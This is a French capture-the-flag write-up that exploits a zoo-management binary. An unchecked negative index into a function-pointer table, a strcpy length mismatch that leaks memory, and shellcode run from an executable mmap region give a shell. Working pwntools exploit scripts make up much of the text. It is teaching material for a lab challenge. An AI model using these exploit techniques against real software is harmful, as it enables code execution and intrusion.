

# Zoo de pointeurs sauvages

Cet exercice est de la recherche de vulnérabilité, le code source nous est fourni pour faciliter la compréhension du programme.

## Flag 1
Ce programe simule la gestion d'un ZOO, la fonction `main` appelle `create_zoo` dans laquelle une région mémoire est créée avec `mmap`.  
C'est dans cette région que les animaux du zoo seront stockés.
On remarque que l'adresse est connue à l'avance, ce qui pourra être pratique.

On appelle ensuite la fonction `make_choice` qui demande un nombre à l'utilisateur, effectue des vérifications sur ce nombre et appelle la fonction associée.  
Ce nombre ne peut pas être suppérieur à `N_ELEMS` (qui vaut 7 ici), ni égal à 0 ou 3.  
La fonction associée au nombre choisi par l'utilisateur est récupérée via le tableau de fonction `cb`.  

En regardant le contenu de se tableau on comprend mieux certaines restrictions, 0 et les nombres suppérieurs à 7 ne correspondent à rien. Cependant 3 contient bien une fonction (`add_custom`), il est donc bizarre que l'on ai pas le droit de l'appeler !

Le nombre entré par l'utilisateur est considéré comme un int donc il peut être négatif or le code ne le vérifie pas.  
Donc si l'utilisateur demande à appeler la fonction `-1`, il va récupérer la fonction `cb[-1]` qui n'est pas définie.
Il y a de bonnes chances que le programme plante.


## Flag 2
Maintenant que l'on a trouvé une vulnérabilité, on peut regarder comment on peut l'utiliser.  
Dans mon example précédent, le programme a planté car `cb[-1]` correspond à une zone mémoire qui ne contient pas de pointeur de fonction valide.  
On peut vérifier ça en regardant le code compilé dans ida


`cb[-1]` correspond à l'addresse `0x404118`, qui veut 0. Il est donc normal que ça crash.  
Mais on peut regarder s'il y a de la donnée que l'on contrôlle en amont de la variable `cb`.



On voit qu'un peut avant `cb` se trouve la variable `nom`.
Or dans `main`, il y a la ligne `read(0, nom, 0x20);`. Ce qui signifie que l'on controlle le contenu de la variable `nom`.
Donc si l'on place un pointeur de fonction valide dans cette variable, on pourra appeler cette fonction grâce à la vulnérabilité trouvée.

`cb[-1]` correspond à l'addresse `0x404118`  
`cb[-2]` correspond à l'addresse `0x404110`
`cb[-3]` correspond à l'addresse `0x404108`  
`cb[-4]` correspond à l'addresse `0x404100` qui correspond à `nom`  

L'énnoncé nous demande de placer un animal custom dans le zoo (fonction `add_custom`) pour avoir le 2e flag, on va donc essayer de l'appeler.  
A partir de ce moment, on a besoin d'envoyer des octets non imprimable donc on passe en python

```python
from pwn import *

io = remote('zoo.serviel.fr', 1234, ssl=True)

# add_custom est à l'adresse 0x00000000004015FF, on place donc ce pointeur dans la variable nom pour pouvoir l'utiliser
# On a besoin de convertir cette adresse en little endian (inverser l'ordre des octets)
io.sendlineafter(b'tom nom ? ', b'\xFF\x15\x40\x00\x00\x00\x00\x00') 

# On a calculé précédemment que le pointeur de fonction que l'on controlle correspond à cb[-4]
io.sendlineafter(b'-> ', b'-4')

io.interactive()
```


On voit que l'on reçois la string `Taille du bruit de l'animal` qui correspond à la fonction `add_custom`.
On est donc capable d'appeler une fonction à une adresse que l'on contrôlle !

## Flag 3
Le 3e flag est stocké dans une variable en mémoire or cette variable n'est jamais utilisée.  
Il va donc que l'on trouve un moyen d'afficher de la donnée à une adresse contrôllée.

L'une des fonctions qui affichent de la donnée que l'on contrôlle est `show_zoo`. Cette fonction parcours le zoo et affiche tous ceux qui s'y trouvent.  
Dans le fonctionnement normal du programme, on peut uniquement ajouter des éléphants et des singes à notre zoo.
Mais maintenant que l'on peut ajouter des animaux custom, on va pouvoir exploiter la structure d'un animal.

La structure d'un animal est la suivante: 

```c
struct animal{
    char *name;
    int sound_volume;
    char sound[];
};
```

`name` est un pointeur vers une string que l'on controlle.  
Ce pointeur est récupéré par la fonction `strdup` et d'après la documentation, cette fonction duplique une chaine de caractère vers une zone mémoire de taille suffisante pour l'accueillir. Il n'y a donc, a priori, pas d'overflow possible ici.

`sound_volume` correspond à la taille de la variable `sound`.  
Dans le cas des éléphants et des singes, cette taille est fixe et on ne controlle pas le contenu de `sound` donc pas d'overflow possible.  
En revanche dans la fonction `add_custom`, on controlle `sound_volume` et `sound` est récupéré par la fonction `strcpy` (qui ne fait aucune vérification de la taille).  
On peut donc se trouver dans une situation où `sound_volume` ne correspond pas à la taille de `sound`.

Dans un cas normal, le zoo devrait ressembler à ça.


Dans cet example, `sound_volume` est toujours plus grand ou égal à la taille de `sound` donc il ne devrait pas y avoir de problème.

Or si on met `sound_volume` plus petit que `sound`, que peut-il se passer ?

Dans la fonction `show_zoo`, pour trouver tous les animaux en mémoire, le programme commence au début du zoo et se base sur la valeur de `sound_volume` pour trouve le prochain animal.  
`ptr = ptr + sizeof(char *) + sizeof(int) + ptr->sound_volume;`

Dans un cas normal, cela permet effectivement de trouver tous les animaux.  
Or si `sound_volume` plus petit que `sound`, alors `ptr` va se retrouver au milieu de la variable `sound_volume`

Regardons ce qu'il se passe dans ce cas.  
Au premier tour de boucle de `show_zoo`, `ptr` pointe vers le premier animal.  


La ligne `printf("%s: %s\n", ptr->name, ptr->sound);` affiche va afficher `TOTO: AAAABBBB`

Ensuite on effectue `ptr = ptr + sizeof(char *) + sizeof(int) + ptr->sound_volume;`.  
Ce qui correspond à `0xcafe000 = 0xcafe000 + 8 + 4 + 4 = 0xcafe010`.  
Or le second animal est à l'adresse `0xcafe014`


`ptr` pointe quelque part dans `sound` donc lorsque l'on va executer la fonction `printf("%s: %s\n", ptr->name, ptr->sound);`, `ptr->name` n'est pas un vrai pointeur de string donc le programme va planter.  
Or si l'on met un vrai pointeur ici, on va pouvoir afficher une string où l'on veut en mémoire.

```python
from pwn import *

io = remote('zoo.serviel.fr', 1234, ssl=True)

# add_custom est à l'adresse 0x00000000004015FF, on place donc ce pointeur dans la variable nom pour pouvoir l'utiliser
# On a besoin de convertir cette adresse en little endian (inverser l'ordre des octets)
io.sendlineafter(b'tom nom ? ', b'\xFF\x15\x40\x00\x00\x00\x00\x00') 

# On a calculé précédemment que le pointeur de fonction que l'on controlle correspond à cb[-4]
io.sendlineafter(b'-> ', b'-4')

# On crée un animal dont sound_volume est plus petit que sound
# Et on place un pointeur sur flag3 dans sound
io.sendlineafter(b'animal: ', b'4') 
io.sendlineafter(b'animal: ', b'AAAA' + b'\xC0\x40\x40\x00\x00\x00\x00\x00') 
io.sendlineafter(b'animal: ', b'toto')

# On liste les animaux ce qui devrait afficher le flag
io.sendlineafter(b'-> ', b'4')

io.interactive()
```


## Flag 4

Dans cette dernière étape on va essayer de prendre le contrôlle de l'execution du programme pour récupérer un shell.

Dans notre recherche de vulnérabilité, nous n'avons pas trouvé de stack overflow donc on ne va pas pouvoir exploiter `saved_rip`.

En revanche, nous avons la possibilité d'appeler une fonction à une addresse que l'on contrôlle.
Donc si l'on arrive à écrire du code assembleur dans un endroit executable dont on connait l'addresse, on peut l'appeler et executer notre propre code.

Grâce aux techniques utilisées précédemment, on controlle plus où moins ce que l'on veut dans le zoo. 
Or on connait l'adresse du zoo (0xc0fe000) et lors de la création de cette zone mémoire, le programme lui passe les arguments `PROT_EXEC | PROT_READ | PROT_WRITE`. Donc cette zone mémoire est executable.

Une stratégie pour executer du code est donc de créer un animal, stocker du code dans `sound`, modifier le contenu de `nom` avec `change_director` pour y placer un pointeur vers notre code et l'executer

```python
from pwn import *

io = remote('zoo.serviel.fr', 1234, ssl=True)

# add_custom est à l'adresse 0x00000000004015FF, on place donc ce pointeur dans la variable nom pour pouvoir l'utiliser
# On a besoin de convertir cette adresse en little endian (inverser l'ordre des octets)
io.sendlineafter(b'tom nom ? ', b'\xFF\x15\x40\x00\x00\x00\x00\x00') 

# On a calculé précédemment que le pointeur de fonction que l'on controlle correspond à cb[-4]
io.sendlineafter(b'-> ', b'-4')

# On crée un animal pour placer un shellcode en mémoire
shellcode = asm(shellcraft.amd64.sh(),arch='amd64')
io.sendlineafter(b'animal: ', b'200') 
io.sendlineafter(b'animal: ', shellcode) 
io.sendlineafter(b'animal: ', b'toto')

# Le shellcode est à l'adresse 0xcafe00c
# On place donc un pointeur vers cette adresse dans nom
io.sendlineafter(b'-> ', b'6')
io.sendlineafter(b'flambeau ? ', b'\x0c\xe0\xaf\x0c\x00\x00\x00\x00') 

# On appelle le shellcode
io.sendlineafter(b'-> ', b'-4')

# Enjoy your shell
io.interactive()
```


Le shellcode utilisé ici provient de pwntools mais on peut très bien l'écrire soi-même ou le récupérer [d'internet](https://shell-storm.org/shellcode/index.html)